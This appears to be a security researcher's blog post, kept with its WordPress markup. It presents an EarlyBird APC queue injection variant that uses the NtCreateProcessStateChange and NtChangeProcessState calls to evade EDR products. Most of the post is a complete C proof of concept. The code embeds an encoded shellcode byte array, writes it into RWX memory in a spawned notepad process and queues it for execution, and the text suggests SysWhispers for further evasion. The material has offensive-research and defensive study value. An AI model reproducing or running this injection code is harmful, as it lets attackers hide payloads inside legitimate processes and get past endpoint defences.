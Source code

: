 ```yaml
---
layout: post
title: EarlyBird APC Queue Injection With a ProcessStateChange Twist
tags: []
---
```


wp:paragraph

/wp:paragraph


wp:paragraph

Relatively recently, Yarden Shafir made a blog post about a new way to evade the EDRs for process injection. In the blog post, Yarden mentions that there are new added features in the recent Windows 10 build(Insider) and Windows 11 as well. Some of them are NtCreateProcessStateChange/ NtCreateThreadStateChange and NtChangeProcessState/NtChangeThreadState.

/wp:paragraph


wp:paragraph

These WINAPI calls were added to resolve the issue of what happens if a process suspends a thread and then terminates it before resuming it. To quote Yarden:

/wp:paragraph


wp:paragraph

Unless some other part of the system realizes what happened, the thread will remain suspended forever and will never resume its execution. To solve that, this new feature allows suspending and resuming threads and processes through the new object types, which will keep track of the suspension state of the threads or processes. That way, when the object is destroyed (for example, when the process that created it is terminated), the system will reset the state of the target process or thread by suspending or resuming it as needed.

/wp:paragraph


wp:paragraph

Yarden has made a PoC at the bottom of the blog potentially continuing a suspended thread, due to these aforementioned new WINAPI calls, a suspended application can now resume or reset. By using DuplicateHandle and getting the second notepad a handle to the first suspended notepad, the suspended notepad remains as is until the second notepad closes and resumes the first notepad without using ResumeThread.

/wp:paragraph


wp:paragraph

Evading common process injection patterns for WINAPI calls can definitely trick some EDRs. Although I took a different approach in my PoC and followed the pattern of EarlyBird APC Queue Injection and instead of creating a suspended process, allocate shellcode and ResumeThread, I created a process, suspended it with NtCreateProcessStateChange, allocated the shellcode and then changed the suspended state back with NtChangeProcessState to continue the primary thread.

/wp:paragraph


wp:paragraph

Obviously the below code will be detected due to the shellcode, VirtualAlloc, WriteProcessMemory, QueueUserAPC but SysWhispers can help you replace that will the ntdll's WINAPI calls for better results.

/wp:paragraph


wp:paragraph

PoC:

/wp:paragraph


wp:image {"id":342,"sizeSlug":"large","linkDestination":"media"}

[![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

/wp:image


wp:code

#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

typedef NTSTATUS(__fastcall* NtCreateProcessStateChange)(OUT PHANDLE StateChangeHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN HANDLE ProcessHandle, IN INT Unknown);
typedef NTSTATUS(__fastcall* NtChangeProcessState)(IN HANDLE StateChangeHandle, IN HANDLE ProcessHandle, IN ULONG Action, IN ULONG64 Unknown1, IN ULONG64 Unknown2, IN ULONG64 Unknown3);

void main()
{
    HANDLE stateChangeHandle;
    PROCESS_INFORMATION procInfo;
    PROCESS_INFORMATION procInfo2;
    STARTUPINFO startInfo;
    BOOL result;
    NTSTATUS status;
    NtCreateProcessStateChange	pNtCreateProcessStateChange;
    NtChangeProcessState        pNtChangeProcessState;
    HMODULE                     hNtdll;
    unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x4f\x6c\xaf\x32\x7e\xe4\xec\x88\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb3\x24\x2c\xd6\x8e\x0c\x2c\x88\x4f\x6c\xee\x63\x3f\xb4\xbe\xd9\x19\x24\x9e\xe0\x1b\xac\x67\xda\x2f\x24\x24\x60\x66\xac\x67\xda\x6f\x24\x24\x40\x2e\xac\xe3\x3f\x05\x26\xe2\x03\xb7\xac\xdd\x48\xe3\x50\xce\x4e\x7c\xc8\xcc\xc9\x8e\xa5\xa2\x73\x7f\x25\x0e\x65\x1d\x2d\xfe\x7a\xf5\xb6\xcc\x03\x0d\x50\xe7\x33\xae\x6f\x6c\x00\x4f\x6c\xaf\x7a\xfb\x24\x98\xef\x07\x6d\x7f\x62\xf5\xac\xf4\xcc\xc4\x2c\x8f\x7b\x7f\x34\x0f\xde\x07\x93\x66\x73\xf5\xd0\x64\xc0\x4e\xba\xe2\x03\xb7\xac\xdd\x48\xe3\x2d\x6e\xfb\x73\xa5\xed\x49\x77\x8c\xda\xc3\x32\xe7\xa0\xac\x47\x29\x96\xe3\x0b\x3c\xb4\xcc\xc4\x2c\x8b\x7b\x7f\x34\x8a\xc9\xc4\x60\xe7\x76\xf5\xa4\xf0\xc1\x4e\xbc\xee\xb9\x7a\x6c\xa4\x89\x9f\x2d\xf7\x73\x26\xba\xb5\xd2\x0e\x34\xee\x6b\x3f\xbe\xa4\x0b\xa3\x4c\xee\x60\x81\x04\xb4\xc9\x16\x36\xe7\xb9\x6c\x0d\xbb\x77\xb0\x93\xf2\x7a\xc4\xe5\xec\x88\x4f\x6c\xaf\x32\x7e\xac\x61\x05\x4e\x6d\xaf\x32\x3f\x5e\xdd\x03\x20\xeb\x50\xe7\xc5\x14\x59\x2a\x19\x2d\x15\x94\xeb\x59\x71\x77\x9a\x24\x2c\xf6\x56\xd8\xea\xf4\x45\xec\x54\xd2\x0b\xe1\x57\xcf\x5c\x1e\xc0\x58\x7e\xbd\xad\x01\x95\x93\x7a\x51\x1f\x88\x8f\xa6\x2a\x14\xca\x32\x7e\xe4\xec\x88";
    SIZE_T shellSize = sizeof(buf);
    stateChangeHandle = nullptr;
    ZeroMemory(&startInfo, sizeof(startInfo));
    startInfo.cb = sizeof(startInfo);
    result = CreateProcess(L"C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&startInfo,&procInfo);
    HANDLE victimProcess = procInfo.hProcess;
    HANDLE threadHandle = procInfo.hThread;
    hNtdll = GetModuleHandle(L"ntdll.dll");
    pNtCreateProcessStateChange = (NtCreateProcessStateChange)GetProcAddress(hNtdll, "NtCreateProcessStateChange");
    status = pNtCreateProcessStateChange(&stateChangeHandle, MAXIMUM_ALLOWED, NULL, procInfo.hProcess, 0);
    pNtChangeProcessState = (NtChangeProcessState)GetProcAddress(hNtdll, "NtChangeProcessState");
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 0, NULL, 0, 0);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 1, NULL, 0, 0);
}

/wp:code


wp:paragraph

Sources:

/wp:paragraph


wp:paragraph

EarlyBird APC Queue Injection - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

/wp:paragraph


wp:paragraph

NtCreateProcessChangeState Blog Post - https://windows-internals.com/thread-and-process-state-change/

/wp:paragraph


wp:paragraph

NtCreateProcessChangeState gist example - https://gist.github.com/DownWithUp/80a3b7b6a198788e79d8b508463e9384

/wp:paragraph
